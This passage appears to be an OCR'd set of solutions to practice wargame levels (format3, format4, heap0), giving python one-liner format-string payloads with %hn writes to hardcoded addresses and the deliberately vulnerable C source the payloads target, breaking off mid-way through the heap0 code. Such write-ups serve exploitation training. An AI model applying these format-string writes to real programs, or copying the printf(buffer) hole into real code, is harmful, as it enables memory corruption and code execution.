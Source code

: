 ```sh
python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820d%12$hn" + "%43966d%13$hn" ' |./format3
```

```sh
python -c 'print "\xf4\x96\x04\x08" + "%16930112d%12$08n" ' |./format3
```

## Format 4

```c
void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

hello: 080484b4

0x8049724 >>> \x24\x97\x04\x08

```sh
python -c 'print "\x24\x97\x04\x08\x26\x97\x04\x08%33964d%4$hn%33616d%5$hn" ' |./format4
```

## Heap 0

```c
struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
```